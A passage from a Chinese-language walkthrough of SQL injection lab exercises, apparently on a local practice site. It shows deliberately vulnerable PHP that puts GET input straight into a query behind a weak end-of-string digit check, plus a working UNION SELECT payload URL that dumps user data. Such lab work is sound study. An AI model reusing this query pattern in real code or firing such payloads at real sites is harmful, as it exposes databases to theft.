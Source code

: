 ```php
            echo "</tr> ";
        }   
        echo "</table> ";
    }
    require '../footer.php';
?> 
```
正则表达，匹配非数字型的过滤，高级一点而已，同样绕过

### example6
有点迷，不知道怎么过滤的，猜测是有 /[0-9]+/ 之类的过滤。根据上一题，猜测是只匹配了$，于是在#后面加上个数字吧,看下源码
```php
<?php

   require_once('../header.php');
  require_once('db.php');
    if (!preg_match('/[0-9]+$/', $_GET["id"])) {
        die("ERROR INTEGER REQUIRED");  
    }
    $sql = "SELECT * FROM users where id=";
    $sql .= $_GET["id"] ;

    
    $result = mysql_query($sql);


if ($result) {
        ?> 
        <table class='table table-striped'> 
      <tr> <th> id</th> <th> name</th> <th> age</th> </tr> 
        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr> ";
                echo "<td> ".$row['id']."</td> ";
                echo "<td> ".$row['name']."</td> ";
                echo "<td> ".$row['age']."</td> ";
            echo "</tr> ";
        }   
        echo "</table> ";
    }
    require '../footer.php';
?> 
```
/[0-9]+$/匹配末尾为数字就可以了，直接给出payload

> http://192.168.132.131/sqli/example6.php?id=2%20union%20all%20select%201,group_concat(id),3,4,5%20from%20users--+%201

### example7
试了几个都没用，看看源码

